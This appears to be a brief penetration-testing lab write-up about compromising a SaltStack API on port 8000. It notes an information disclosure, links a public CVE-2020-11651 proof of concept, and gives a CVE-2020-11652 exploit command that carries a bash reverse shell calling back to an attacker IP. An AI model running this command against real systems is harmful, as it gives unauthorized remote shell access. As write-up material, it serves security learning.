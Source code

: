 
# 8000
![](attachment/4beb0266e0bbba75da736cc5858a2d11.png)
Information disclosure

![](attachment/5ed7eda06a54b277cc9777f9be78f5b5.png)
Now checking google for this json:
![](attachment/bec04212ee3f947b5663fda511fdb188.png)

It's the salt API

Using this exploit:
https://github.com/jasperla/CVE-2020-11651-poc
![](attachment/dcbcf6119e19ba58b4339b5b61c0f39b.png)


Now we can get the shell:
```bash
python3 CVE-2020-11652/CVE-2020-11652.py --master 192.168.234.62 --exec-choose master --exec-cmd "/bin/bash -i >& /dev/tcp/192.168.45.167/80 0>&1"
```
We get a shell back:
![](attachment/ac5db882233061d4ab78619c920c6b3e.png)

